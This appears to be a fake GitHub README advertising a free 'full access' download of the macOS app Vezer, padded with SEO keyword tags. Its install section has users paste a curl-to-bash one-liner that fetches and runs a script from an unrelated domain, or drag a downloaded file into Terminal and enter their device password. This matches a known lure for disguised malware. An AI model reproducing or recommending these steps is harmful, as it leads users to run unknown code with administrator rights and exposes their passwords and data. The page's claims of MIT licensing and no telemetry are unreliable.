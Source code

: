 <p align="center">
  <img src="https://i.ibb.co/s9wV8CjN/1616972221-vezer-logo.png" alt="Vezer macOS Banner" />
</p>

<h1 align="center">Vezer for macOS</h1>

<p align="center">
  🎛️ Timeline-based control for MIDI and OSC — perfect for AV artists, VJs, and stage designers.  
  <br><br>
  ✅ macOS Sonoma, Ventura, Monterey compatible  
  ✅ Apple Silicon & Intel ready  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/199" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20VEZER%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Vezer for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/4g5sbTGr/1670155820-1.jpg" alt="Vezer Timeline Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Vezer for macOS?

**Vezer for macOS** is a powerful timeline-based software that enables artists, musicians, VJs, and technical directors to automate MIDI and OSC events for shows and interactive installations. Whether you're triggering visuals, lights, or custom parameters in real time, Vezer gives you precise frame-by-frame control across multiple layers.

Designed for macOS and optimized for performance, Vezer fits seamlessly into AV workflows where synchronization is key. It works entirely offline and runs natively on Apple Silicon.

---

## ✅ Why Choose Vezer?

- 🎛️ **Timeline-Based Automation Interface**  
- 🎹 **Precise MIDI Event Creation**  
- 🌐 **OSC Support for Advanced Control**  
- ⏱️ **Frame-Accurate Playback**  
- 🎬 **Multiple Timelines and Layer Support**  
- 💡 **Ideal for AV Shows and Installations**  
- 🔁 **Trigger External Devices in Sync**  
- 🍎 **Optimized for macOS – M1/M2/M3 Ready**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/s9RjF6yb/1670155820-2.jpg" alt="Vezer MIDI Automation Timeline Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/p6DnfG6F/1670155820-3.jpg" alt="OSC Layer Control in Vezer macOS" />
</p>

---

## 🚀 Key Features

- Frame-accurate automation timelines  
- Multiple timelines & timeline groups  
- MIDI & OSC track support  
- Cue points and keyframe control  
- Export & import project elements  
- Drag-and-drop timeline editing  
- Zero internet dependency – fully local  
- Native performance on Intel and Apple Silicon

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Vezer under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-MIDI%2FOSC+Timeline+Control-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-AV+Show+Automation+Tool-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Vezer – Creative Timeline Automation

Thanks for using **Vezer for macOS**.  
Perfect sync for performance and control.

---

## 🧭 Usage Context

Vezer is intended for local control of audiovisual elements in live settings.  
No internet sync or telemetry — your show, your data.

Built for installations, events, and professional AV workflows.  
Not affiliated with Apple or any hardware vendor.

---

## 🔍 Tags

```text
vezer for mac download, midi automation tool macos, osc control timeline mac app, vezer midi osc show controller, vezer apple silicon download mac, timeline based automation software mac, live av performance midi tool mac, frame accurate midi sequencer mac, vezer for macbook pro m1 m2 m3, automate lighting and visuals mac, vezer show controller for stage macos, midi cue and keyframe editor mac, vezer offline installer for mac, professional av sync controller mac, vezer visual timeline midi osc mac
